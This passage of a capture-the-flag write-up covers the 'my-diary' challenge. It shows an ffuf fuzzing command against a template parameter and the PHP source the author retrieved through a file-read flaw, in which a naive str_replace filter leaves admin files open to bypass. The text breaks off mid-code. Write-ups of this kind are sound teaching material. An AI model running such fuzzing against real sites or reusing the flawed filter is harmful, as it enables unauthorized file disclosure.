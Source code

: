 <img src="images/6-home.png" width="70%">

The URL structure (`https://hackyholidays.h1ctf.com/my-diary/?template=entries.html`) looks as though the server is rendering the user specified file. We may be able to find more files to render. Let's get fuzzy:

```
$ ffuf -w raft-small-files.txt -u https://hackyholidays.h1ctf.com/my-diary/\?template\=FUZZ -fc 302 -mc all

index.php               [Status: 200, Size: 689, Words: 126, Lines: 22]
.                       [Status: 200, Size: 0, Words: 1, Lines: 1]
_index.php              [Status: 200, Size: 689, Words: 126, Lines: 22]
```
Alrighty, let's access `https://hackyholidays.h1ctf.com/my-diary/?template=index.php` and see what happens:

**Response:**
```php
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
```